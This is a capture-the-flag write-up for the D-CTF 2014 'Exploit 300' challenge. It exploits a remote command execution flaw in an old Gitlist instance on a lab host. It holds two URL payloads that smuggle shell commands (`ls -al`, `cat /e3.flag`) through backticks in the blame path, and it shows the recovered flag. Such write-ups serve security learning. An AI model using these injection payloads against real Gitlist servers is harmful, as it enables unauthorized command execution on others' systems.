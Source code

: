 # D-CTF 2014: Exploit 300 – People say…

**Category:** Exploit
**Points:** 300
**Description:**

> People say that if you're still angry at 80, you're not an angry young man, just a grumpy old git. 10.13.37.33
>
> **Hint:** gitlist.

## Write-up

Taking the hint, we navigate to `http://10.13.37.33/gitlist/` which hosts a [Gitlist](http://gitlist.org/) instance. Older versions of Gitlist are [vulnerable to remote command execution](http://hatriot.github.io/blog/2014/06/29/gitlist-rce/). Let’s try executing `ls -al` on the target server:

```
http://10.13.37.33/gitlist/redis/blame/unstable/README%22%22%60ls%20-al%60
```

It works! After some recon work, we find a file named `e3.flag` in the server root. Let’s view its contents using the following payload:

```
http://10.13.37.33/gitlist/redis/blame/unstable/README%22%22%60cat%20%2Fe3.flag%60
```

The result is:

```
stupid psychopathic git.
```

This is the flag.

## Other write-ups and resources

* none yet
